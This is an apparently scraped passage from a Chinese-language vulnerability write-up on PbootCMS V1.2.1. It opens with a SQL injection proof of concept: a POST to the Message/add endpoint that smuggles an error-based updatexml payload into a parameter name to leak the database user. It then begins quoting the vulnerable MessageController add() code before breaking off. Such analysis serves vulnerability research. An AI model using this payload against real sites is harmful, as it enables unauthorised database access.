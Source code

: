 ```
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Message/add
post:
    contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111
    content = 1111
    mobile = 1111 
```

![image](img/900277ed575b210480064076fd9c4a20.png)

### 0x01.1.2 漏洞解读

路径：PbootCMS-V1.2.1\apps\home\controller\MessageController.php
方法：add(

```
// 留言新增
    public function add()
    {
        if ($_POST) {

```
 if (time() - session('lastsub') &lt; 10) {
            alert_back('您提交太频繁了，请稍后再试！');
        }

        // 验证码验证
        $checkcode = post('checkcode');
        if ($this-&gt;config('message_check_code')) {
            // if (! $checkcode) {
            //     alert_back('验证码不能为空！');
            // }

            if ($checkcode != session('checkcode')) {
                alert_back('验证码错误！');
            }
        }
